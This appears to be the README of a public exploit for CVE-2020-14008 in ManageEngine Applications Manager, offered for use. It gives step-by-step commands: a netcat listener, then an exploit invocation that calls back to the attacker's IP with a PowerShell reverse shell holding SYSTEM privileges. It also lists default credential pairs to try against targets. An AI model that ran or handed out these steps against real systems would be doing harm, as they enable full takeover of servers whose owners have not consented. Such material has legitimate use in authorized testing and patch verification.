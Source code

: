 # CVE-2020-14008 ManageEngine Exploit

## What is this?
This script exploits CVE-2020-14008 in ManageEngine Applications Manager to get a reverse shell with SYSTEM privileges.

## Requirements
```bash
pip3 install requests urllib3
```

## How to use it

### 1. Start a listener
```bash
nc -nlvp 9001
```

### 2. Run the exploit
```bash
python3 cve-2020-14008-exploit.py <target_url> <username> <password> <your_ip> <your_port>
```

### Examples
```bash
# Direct attack
python3 cve-2020-14008-exploit.py https://192.168.1.100:8443 admin admin 192.168.1.50 9001

# Through port forwarding
python3 cve-2020-14008-exploit.py https://localhost:8443 admin admin 127.0.0.1 9001
```

## Common credentials to try
- `admin:admin`
- `administrator:administrator`
- `guest:guest`

## What you get
- PowerShell reverse shell
- SYSTEM privileges on the target
- Full control of the ManageEngine server 
